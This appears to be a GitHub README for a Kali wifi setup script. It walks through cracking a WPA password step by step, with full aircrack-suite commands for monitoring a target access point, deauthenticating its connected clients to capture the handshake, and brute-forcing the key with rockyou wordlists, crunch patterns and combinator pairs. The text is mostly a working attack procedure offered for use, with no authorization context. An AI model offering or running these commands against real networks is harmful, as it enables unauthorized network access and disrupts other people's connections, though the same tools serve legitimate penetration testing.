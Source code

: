 # kali wifi setup script

Just a basic script to bring a wlan0 interface up to monitor mode and start airodump-ng if required, once you have the interface running in monitor mode, then running airodump-ng you can use the process below in order to capture wireless data and aim to crack the wpa password.

Its worth noting here that airodump-ng has some awesome interactive features which i have briefly written about on my blog:https://innogen-security.com/airodump-ng-interaction/


Route to capture wpa handshake

1: use the above output to decide on target and note details:
```
BSSID:     00:00:00:00:22:30
ESSID:     TESTAP
Client:    00:00:00:00:00:ED
Mon0:      00:00:00:00:00:A8
Channel:   11
```
2: Screen 1 - Monitor target for clients using: 

```airodump-ng -c <Channel> --bssid <BSSID> -w <CaptureName> <Mon0 interface name>```
  
3: Screen 2 - Associate with the bssid: 

```aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your Mon0 MAC> <Mon0 interface name>```
  
4: Screen 3 - death a connected client periodically until the wpa handshake is witnessed / captured in screen 1 
  
```aireplay-ng -0 1 -a <AP MAC> -c <Client MAC to DeAuth> <Mon0 interface name>```
  
5: Go get a life and hope that you can attack the wifi handshake captured

```john --wordlist=/usr/share/wordlists/rockyou.txt --rules --stdout | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap```

6: If you know a pattern for the wifi password then try the following items?

```crunch 8 8 abcdef1234567890 | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
crunch 8 8 abcdefghijklmnopqrstuvqxyz | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
```

7: Failing all the above and if you have a powerful enough GPU GTX 1080 :D then try combinations of words such as:

```/usr/lib/hashcat-utils/combinator.bin /usr/share/wordlists/rockyou.txt /usr/share/wordlists/rockyou.txt  |aircrack-ng -0 -e "THEAPANAME" -w - SOMEPATH/THECAPTURENAME.cap```


All of the above may produce 0 results and take a looong time to do so, however if weak words/pairs of words or weak default patterns are used then the above will yield a result eventually......maybe......hopefully......who knows......?
